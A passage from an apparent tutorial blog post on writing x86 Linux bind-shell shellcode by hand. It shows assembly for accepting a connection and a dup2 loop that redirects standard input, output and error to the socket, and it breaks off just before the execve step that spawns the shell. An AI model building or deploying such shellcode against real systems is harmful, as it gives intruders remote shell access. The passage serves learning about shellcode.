 
push ecx		; ECX is 0, pushing on the stack

mov esi, ecx
mov ecx, esp		; ECX now points to a zero bytes region from the stack.
mov edx, esp

int 0x80		; cfd = accept4(sfd, NULL, NULL, 0);

mov ebx, eax		; Saving socket descript resulting from accept4 into EBX
{%endhighlight%}

accept() call returns the socket descriptor resulting of the newly accepted
communication. Since the original socket descriptor is not going to be used
anymore, we save on EBX register the new descriptor and we move forward.

### dup()

Before giving the control to execve() we must redirect standard input, output,
and error to the newly accepted socket descriptor. This way, we will create a
bi-directional data flow mechanism to the socket and to the execve().

We will use the dup2() system call to achieve this. Its task is to duplicate
the descriptor specified as then second argument to the one passed as the first
argument.

{%highlight c%}
dup2(cfd, 0);
dup2(cfd, 1);
dup2(cfd, 2);
{%endhighlight%}

Nothing complicated here. I just use a loop in order not to duplicate a lot of
code and also to practice me with jump instructions.

{%highlight asm%}
; Duplicating descriptor 0, 1, 2 to the socket opened by client
;
; int dup2(int oldfd, int newfd);
;
; dup2 is defined as #define __NR_dup2 63 in /usr/include/i386-linux-gnu/asm/unistd_32.h

xor ecx, ecx
mov cl,  2
xor eax, eax

dup2:
	mov al, 0x3F	; 63 in decimal
	int 0x80	; duplicating file descriptors in backwards order; from 2 to 0
	dec ecx
	jns dup2
{%endhighlight%}

### And the final call: execve()

Ok, if everything was set correctly we have a listening socket and our process
has its standard input, output and error redirected on that socket. It's now
time to spawn a shell.
